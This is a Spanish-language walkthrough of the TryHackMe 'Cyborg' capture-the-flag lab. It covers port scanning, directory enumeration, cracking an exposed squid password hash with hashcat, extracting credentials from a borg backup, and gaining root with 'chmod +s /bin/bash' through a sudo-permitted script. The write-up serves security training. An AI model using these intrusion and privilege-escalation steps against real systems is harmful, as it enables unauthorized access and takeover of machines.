





[Read on English](README.md)

# Cyborg - WriteUp/Walkthrought [THM]

## PWNED By 14Wual

[Github](https://github.com/14wual):  14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Paǵina Web](https://14wual.github.com) <br>

## Acerca del Laboratorio

**Nivel**: Easy <br>
**Sistema Operativo**: Linux <br>

## Recopilación

Empezamos haciendo una recopilacion de información de puerto con el siguiente comando `namp`:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.75.97 -oN nmap.main.txt
```

Output:

```
Not shown: 65502 closed tcp ports (reset), 31 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Como tenemos un puerto 80, empezaremos viendo la página web. Este es su contenido:



Usaremos la herramienta `feroxbuster` para encontrar directorios ocultos.

```
feroxbuster --filter-status 200 -u http://10.10.75.97/
```

Entre las líneas de ouput, podemos ver la siguiente información:

```
301      GET        9l       28w      310c http://10.10.75.97/admin => http://10.10.75.97/admin/
200      GET       15l       74w     6143c http://10.10.75.97/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.75.97/
301      GET        9l       28w      308c http://10.10.75.97/etc => http://10.10.75.97/etc/
200      GET        1l        1w       52c http://10.10.75.97/etc/squid/passwd
200      GET        6l       27w      258c http://10.10.75.97/etc/squid/squid.conf
```

La página `/etc`, tiene una carpeta llamada `squid/` con el siguiente contenido:



El contenido de los archivos son los siguientes:

`Conf File:`

```
autzh_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

`Passwd File:`

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

Además, en la carpeta `/admin/`, ecnontramos una página web. En esa página web, si pincahmos en `admins` en el navbar, nos enconttraremos con el siguiernte mensaje, que al traducirlo nos dice lo siguiente:

```
############################################## #################################### [Ayer a las 4:32 pm de Josh] ¿Vamos todos para ver el partido de fútbol el fin de semana?? ############################################## #################################### [Ayer a las 4:33 p. m. de Adam] Sí, sí, amigo, absolutamente espero que ganen! ############################################## #################################### [Ayer a las 16:35 de Josh] Nos vemos allí entonces ¡compañero! ############################################## #################################### [Hoy a las 5:45 de Alex] Ok, lo siento chicos, yo creo que arruiné algo, uhh, estaba jugando con el proxy squid que mencioné anteriormente. Decidí rendirme como siempre lo hago ahahaha lo siento por eso. Escuché que se supone que estas cosas de proxy hacen que su sitio web sea seguro, pero apenas sé cómo usarlo, así que probablemente lo esté haciendo más inseguro en el proceso. Podría pasarlo a los chicos de TI, pero mientras tanto, todos los archivos de configuración están por ahí. Y como no sé cómo funciona, no estoy seguro de cómo eliminarlos, espero que no contengan información confidencial jajaja. Aparte de eso, estoy bastante seguro de que mi copia de seguridad "music_archive" es segura solo para confirmar. ############################################## ####################################
```

Si seguimos investigando, podremos descargarnos un archivo `.tar` en el apartado de Archive, con el siguiente contenido:



Vamos ha revisar todo el contenido de los archivos, al `catear` el archivo `home/field/dev/final_archive/config`, podremos ver el siguiente output:

```
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
    L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
    2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
    8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
    daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
    oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
    eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
    T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
    vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
    SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
    UCH8bjZLfc1GFsundmVyc2lvbgE=
```

Si leemos el `readme`, nos llevara a la siguiente [documentación de borgbackup](https://borgbackup.readthedocs.io/en/stable/)

Para instalar borg:

```
apt install borgbackup
```

Si hacemos el siguiente comnandfo:


```
borg create -v --stats final_archive::Saturday2 /home/wual/Documentos/pentesting/machines/Cyborg/rep
```

Nos pedirá una contraseña, para poder restaurar el backup, asi que vamos ha intentar decodificar la contraseña de la página web http://10.10.75.97/etc/squid/passwd. Metemos la pass en un archivo y ejecutamos el siguiente comando:

```
hashcat -a 0 -m 1600 <hash-file> /usr/share/wordlists/rockyou.txt
```

Nos dá el siguiente output:

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Sun May 28 11:13:14 2023 (1 sec)
Time.Estimated...: Sun May 28 11:13:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    30549 H/s (6.76ms) @ Accel:64 Loops:500 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39424/14344385 (0.27%)
Rejected.........: 0/39424 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> cheery
Hardware.Mon.#1..: Temp: 85c Util: 95%

Started: Sun May 28 11:12:56 2023
Stopped: Sun May 28 11:13:16 2023
```

Ya tenemos la contraseña: `squidward`, ahora vamos ha intentar restaurar asi que eejecutamos este comando:

```
borg mount ../final_archive  <output> 
```

Esta esa la estructura que se monta en nuestra carpta ouput:




Vamos ha catear ambos archivos `.txt`.

Archivo: `music_archive/home/alex/Desktop/secret.txt`

```
shoutout to all the people who have gotten to this stage whoop whoop!"
```

Archivo: `music_archive/home/alex/Documents/note.txt`:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
alex:S3cretP@s3
```

Ya tenemos un usuario con el que entrar por ssh!

```
ssh alex@10.10.75.97
alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt
flag{**********}
alex@ubuntu:~$ 
```

Si hacemos un `suco -l` vemos lo siguiente:

```
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Y si cateamos ese mismo archivo, obtenemos el siguiente script:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```

Vamos ha intentar ejecutar el comando: `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"`, ya que, por lo q7ue se lee en el script, esto si esd posible.

Al ejecutarlo, me ha salido, un output como este:

```
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
```

Ya podemos hacer lo siguiente:

alex@ubuntu:~$ /bin/bash -p
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
bash-4.3# cat /root/root.txt
flag{****************}

De esta manbera, terminamos la maquina, Muchas gracias por llegar al final!

